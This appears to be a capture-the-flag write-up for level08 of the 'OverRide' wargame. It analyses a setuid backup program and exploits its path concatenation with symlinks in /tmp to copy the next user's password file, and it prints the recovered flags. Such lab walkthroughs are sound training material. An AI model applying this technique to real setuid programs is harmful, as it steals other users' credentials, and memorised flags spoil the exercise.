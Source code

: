 ### Step 1: Decompile with Ghydra

- The source code is available in `source.c`


### Step 2: Code Analysis

- 2 functions are present :
    - A `log_wrapper` function that formats logs and writes to a filestream passed in parameters
    - The `main` that opens the log file in `./backups/.log` (r+w), then opens a path specified by `av[1]` in read mode, and finally opens the path that results from the concatenation of `./backups/` and `av[1]` to write the content of the previous file


### Step 3: Trying to Exploit

- We want the flag to be opened and read, then written in the backups folder

- We can test that by opening the current flag present in level08's home and confirm that it works that way

```
level08@OverRide:~$ ./level08 ".pass"
level08@OverRide:~$ ls -la backups/
total 8
drwxrwx---+ 1 level09 users    80 Nov 22 18:06 .
dr-xr-x---+ 1 level08 level08 100 Oct 19  2016 ..
-rwxrwx---+ 1 level09 users    66 Nov 22 18:08 .log
-r--r-----+ 1 level09 users    41 Nov 22 18:06 .pass
level08@OverRide:~$ cat backups/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

- We can then try to do the same thing with the flag present in level09's home. The binary should be able to open it with his suid

```
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

The error shows that the flag was opened but the concatened path string contains an exeeding `/` character => We have to find a way to bypass to problems :
    - The concatened string must be a valid path to write the output
    - The path in `av[1]` must be a real path to the flag


### Step 4: Final Exploit


1) create symlink of the level08 binary to /tmp
`ln -s /home/users/level08/level08 /tmp/level08`

```
level08@OverRide:/tmp$ ls -la
total 0
drwxrwxrwt 4 root    root    120 Nov 23 08:49 .
drwxr-xr-x 1 root    root    220 Nov 23 08:31 ..
drwxrwxrwx 3 level08 level08 100 Nov 23 08:45 backups
drwxrwxr-x 3 level08 level08  60 Nov 23 08:33 home
lrwxrwxrwx 1 level08 level08  27 Nov 23 08:48 level08 -> /home/users/level08/level08
```


2) create a symlink for the /home folder to /tmp/home
`ln -s /home /tmp/home`

This is used to bypass the error created by the forced concatenation of `./backups/` + our path `/home/users/level09/.pass`
```
level08@OverRide:/tmp$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```
This symlink will help to remove the `/` preceding `home` while preserving the path to the real flag

3) create a fake folder tree in /tmp/backup to mimic to the behaviour of the binary backup function
```
mkdir /tmp/backups /tmp/backups/home /tmp/backups/home/users /tmp/backups/home/users/level09
```
The path provided is a real path to write the backup result  

4) run level08 binary in /tmp
```
cd /tmp
./level08 home/users/level09/.pass
```
No error => the flag should be present in our `/tmp/backups/home/users/level09` folder  

5) cat the flag store in our fake backup directory
```
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```